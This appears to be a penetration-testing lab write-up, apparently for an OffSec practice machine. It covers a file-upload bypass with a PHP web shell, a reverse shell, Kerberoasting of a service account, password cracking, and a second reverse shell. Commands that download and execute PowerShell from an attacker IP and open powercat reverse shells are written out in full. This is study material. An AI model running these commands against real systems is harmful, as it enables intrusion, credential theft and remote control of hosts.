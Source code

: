 ![[Cybersecurity-Resources/images/Pasted image 20241104210326.png]]
- Renamed `simple-backdoor.php` to `simple-backdoor.bypass` and uploaded
![[Cybersecurity-Resources/images/Pasted image 20241104210532.png]]
- Navigated to `http://192.168.196.187/uploads/simple-backdoor.bypass?cmd=whoami` and achieved code execution on target
![[Cybersecurity-Resources/images/Pasted image 20241104210639.png]]
- Generated PHP reverse shell to connect back to Attacker IP
![[Cybersecurity-Resources/images/Pasted image 20241104212007.png]]
- Saved PHP reverse shell as `php-reverse.bypass`, then uploaded to target.
![[Cybersecurity-Resources/images/Pasted image 20241104211516.png]]
- Started netcat listener on port `1234` then navigated to `http://192.168.196.187/uploads/php-reverse.bypass` and caught reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241104212156.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `whoami /priv`
![[Cybersecurity-Resources/images/Pasted image 20241104212942.png]]
- Ran `systeminfo` - identified `Windows Server 2019` `Build 17763` on `x64`
![[Cybersecurity-Resources/images/Pasted image 20241104213150.png]]
- Uploaded `winpeasx64.exe` and ran on target
![[Cybersecurity-Resources/images/Pasted image 20241105120710.png]]
- Identified vulnerabilities with `Watson`
![[Cybersecurity-Resources/images/Pasted image 20241105122244.png]]
- Identified unquoted autorun binaries with spaces
![[Cybersecurity-Resources/images/Pasted image 20241105121653.png]]
![[Cybersecurity-Resources/images/Pasted image 20241105121733.png]]
- Uploaded `Get-SPN.ps1` and ran on target - identified 
![[Cybersecurity-Resources/images/Pasted image 20241105123023.png]]
- Ran `Add-Type -AssemblyName System.IdentityModel` and `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'`
![[Cybersecurity-Resources/images/Pasted image 20241105123802.png]]
## Lateral Movement vector
- Served `Invoke-Kerberoast.ps1` via Python3 server then ran: `iex(new-object net.webclient).downloadString('http://192.168.45.178:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat` for `svc_mssql` ticket hash
![[Cybersecurity-Resources/images/Pasted image 20241105130904.png]]
- Reformatted and saved hash to local host as `msql.hash`
![[Cybersecurity-Resources/images/Pasted image 20241105131312.png]]
- Ran `john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 MSQL.hash` and cracked hash for credential `trustno1`
![[Cybersecurity-Resources/images/Pasted image 20241105132120.png]]
- Uploaded `Invoke-RunasCs.ps1`, started netcat listener on port `5555` then ran `Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/powercat.ps1');powercat -c 192.168.45.178 -p 5555 -e cmd"` for reverse shell as `svc_mssql` - caught reverse shell as `svc_mssql`
![[Cybersecurity-Resources/images/Pasted image 20241105135714.png]]
- Ran `type C:\Users\svc_mssql\Desktop\local.txt` to print local flag `d075a9b799bbf34764ed55ccd797108d`